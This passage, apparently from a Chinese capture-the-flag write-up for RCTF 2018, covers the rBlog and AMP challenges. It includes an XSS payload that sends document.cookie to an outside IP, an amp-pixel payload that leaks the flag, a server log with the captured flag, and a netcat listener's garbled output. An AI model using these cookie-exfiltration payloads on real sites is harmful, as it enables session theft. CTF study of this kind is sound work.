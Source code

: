 ```
window.location.href="http://123.207.90.143?"+document.cookie;
```

最终结果:

```
115.159.200.107 - - [22/May/2018:21:39:02 +0800] "GET /?flag=RCTF{why_the_heck_no_mimetype_for_webp_in_apache2_in_8012};%20hint_for_rBlog_Rev.2=http://rblog.2018.teamrois.cn/blog.php/52c533a30d8129ee4915191c57965ef4c7718e6d HTTP/1.1" 200 15 "http://rblog.2018.teamrois.cn/" "Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/66.0.3359.181 Safari/537.36"

```

## amp

payload:

> http://amp.2018.teamrois.cn?name=<amp-pixel src="https://123.207.90.143:1234/pixel?clientId=CLIENT_ID(FLAG)"></amp-pixel>

```
[root@VM_89_224_redhat ~]# nc -lvv 1234
Ncat: Version 6.40 ( http://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 106.120.206.166.
Ncat: Connection from 106.120.206.166:64053.
��Y���8۲Y�=����6���km����
                                 ��A It+z���^�vY�$���,�3�'�����*K�Zp"jj�+�/�,�0̨̩����/5

              hhttp/1.1uP
                          3+)jj �ZaV>WB�~���|�Z��4KM�������Et~-+

��

```

writeup:

>  https://github.com/zsxsoft/my-rctf-2018/tree/master/amp

注意，我这里是乱码的原因是，我直接监听1234端口，并不支持ssl。



